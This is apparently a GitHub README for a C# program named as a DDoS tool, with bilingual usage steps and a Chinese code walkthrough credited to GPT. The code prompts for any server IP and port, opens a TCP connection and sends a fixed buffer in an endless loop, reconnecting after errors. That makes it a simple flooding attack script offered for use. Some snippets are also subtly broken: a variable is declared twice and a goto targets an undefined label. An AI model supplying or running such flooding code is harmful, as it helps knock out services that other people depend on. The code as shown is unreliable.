 # DDOS-by-CS(A DDoS programing by CSharp)

# 简体中文
## 如何使用?
输入服务器IP(域名)  
输入服务器端口  
然后<kbd>回车</kbd>

# English
## How to use?
Input IP or domain name of server.  
Input the port of server.  
Then press <kbd>Enter</kbd>.
<hr>

# GPT的解析：
# 代码功能解析  
这段代码是一个简单的 C# 程序，用于与服务器建立 TCP 连接，并发送数据包到服务器。  
## 导入命名空间：  
```CSharp
using System;
using System.Net;
using System.Net.Sockets;
```
这些命名空间包含了程序中需要用到的类和方法。  
## 声明 Program 类：  
```CSharp
class Program {
    // 程序的入口方法
    public static void Main() {
        // ...
    }
}
```
Main 方法是程序的入口点。  
## 获取服务器 IP 地址和端口号：  
```CSharp
string serverIP;
int serverPort;
int count = 0;
Console.Write("服务器    |  Server: ");
serverIP = Console.ReadLine();
while (true) {
    Console.Write("端口      |  Port  : ");
    if (int.TryParse(Console.ReadLine(), out serverPort)) {
        break;
    } else {
        Console.ForegroundColor = ConsoleColor.Red;
        Console.WriteLine("端口不正确|  Invalid input");
        Console.ResetColor();
    }
}
```
这段代码会提示用户输入服务器的 IP 地址和端口号，并进行验证。  
## 连接服务器：  
```CSharp
TcpClient client = new TcpClient();
try {
    client.Connect(serverIP, serverPort);
    Console.WriteLine("服务器连接成功  |  Connect success.");
} catch (Exception e) {
    Console.ForegroundColor = ConsoleColor.Red;
    Console.WriteLine("服务器连接失败  |  Unable to connect to server.");
    Console.ResetColor();
}
```
这段代码会创建一个 TcpClient 实例，并使用 Connect 方法连接到指定的服务器。如果连接成功，会输出连接成功的消息，否则会输出连接失败的消息。  
## 获取网络流：  
```CSharp
NetworkStream stream = client.GetStream();
```
这段代码会从 TcpClient 实例获取网络流，用于后续的数据传输。  
## 发送数据包：  
```CSharp
byte[] buffer = System.Text.Encoding.ASCII.GetBytes("DataDataDataDataDataData");
int count = 0;
while (true) {
    count++;
    try {
        stream.Write(buffer, 0, buffer.Length);
        Console.Write("发了第" + count + "次包");
        Console.ForegroundColor = ConsoleColor.Green;
        Console.WriteLine("成功");
        Console.ResetColor();
    } catch (Exception e) {
        Console.ForegroundColor = ConsoleColor.Red;
        Console.WriteLine("在发送第" + count + "时发送问题" + e.Message);
        Console.ResetColor();
        goto reclient;
    }
}
```
这段代码会循环发送数据包到服务器。每次发送都会将计数器加一，并输出发送成功的消息。如果发送过程中出现异常，会输出发送失败的消息，并通过 goto 语句跳转到 reclient 标签处重新连接服务器。  
总体而言，这段代码的作用是建立 TCP 连接到指定的服务器，并循环发送数据包到服务器。在发送过程中，会输出相应的提示信息。
